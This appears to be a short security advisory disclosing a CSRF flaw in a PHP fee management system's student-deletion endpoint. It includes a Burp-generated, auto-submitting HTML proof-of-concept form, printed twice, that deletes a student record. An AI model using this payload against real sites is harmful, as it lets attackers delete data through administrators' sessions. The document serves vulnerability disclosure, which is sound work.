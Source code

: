 # Summary
SourceCodester Best Fee Management System Project has a CSRF vulnerability in `/click_fees/index.php?page=studens`, which allows attackers to trick administrators who are logged into the site to delete student information.

# Details
In url : `/click_fees/index.php?page=students`
Choose module `Students` and choose option `delete`:
![image](https://github.com/user-attachments/assets/8d362cb6-5960-4267-8229-33dfa5bc9bf3)

Use burpsuite to intercept, finding that there's no csrf token for protection:
![image](https://github.com/user-attachments/assets/2af63635-089c-491e-bd0d-bd77bb05e8a1)

CSRF PoC:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://fee:84/click_fees/ajax.php?action=delete_student" method="POST">
      <input type="hidden" name="id" value="3" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![PoC](https://github.com/user-attachments/assets/30376271-f5dc-4730-9003-41f25696a394)

# PoC
CSRF PoC:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://fee:84/click_fees/ajax.php?action=delete_student" method="POST">
      <input type="hidden" name="id" value="3" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![PoC](https://github.com/user-attachments/assets/30376271-f5dc-4730-9003-41f25696a394)
